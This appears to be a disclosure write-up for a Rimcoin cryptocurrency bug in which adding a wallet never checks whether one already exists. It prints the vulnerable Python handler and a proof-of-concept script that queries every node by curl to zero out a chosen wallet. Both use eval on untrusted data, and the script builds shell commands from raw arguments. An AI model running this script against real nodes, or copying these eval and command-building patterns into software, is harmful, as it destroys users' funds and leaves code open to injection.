 # RIM-2018-4192

RIM-2018-4192 is a bug that was actually really simple, SCARILY simple, but would erase ANYONE's funds, without their consent in any way.

The bug was in this source:

```python
elif c=="add_rc_wallet":
    BALANCES=open("balance","r").read() # get file
    BALANCES=eval(BALANCES) # evaluate
    BALANCEW=open("balance","w") # open
    BALANCES[args[0]]=0 # add new wallet
    BALANCEW.write(str(BALANCES)) # write
    BALANCEW.close() # close
    IPS=open("ip","r").read() # open id file
    IPS=eval(IPS) # evaluate
    IPS[args[0]]=ip
    IP=open('ip','w')
    IP.write(str(IPS))
    IP.close()
```

The bug is that it doesn't check if the wallet already exists. 

So here is what a sample PoC would look like:

```python
import subprocess,sys,os

contact_node="67.241.245.218:8080"
nodes=eval(subprocess.check_output("curl "+contact_node+"/rq_node"))

for j in nodes:
    print("New target node is "+j)
    os.system("curl "+j+"/add_node_wallet*"+sys.argv[1])
print("Contacting OG node - "+contact_node)
os.system("curl "+contact_node+"/add_node_wallet*"+sys.argv[1])

print("""FUND OVERRIDING DUE TO NODE CONTACT BUG (RIM-2018-4192)

- BY IHATERA1N, 2018. 
THE RIMCOIN WALLET ADDRESS """+sys.argv[1]+""" HAS BEEN EMPTIED. 

¯\_(ツ)_/¯""")
```

Of course, we have already patched this bug on our main node. 

Note:
Bug discovered and PoC written, and write-up created by iHateRa1n; the creator of Rimcoin! 
He was payed 75 RC for this discovery. 
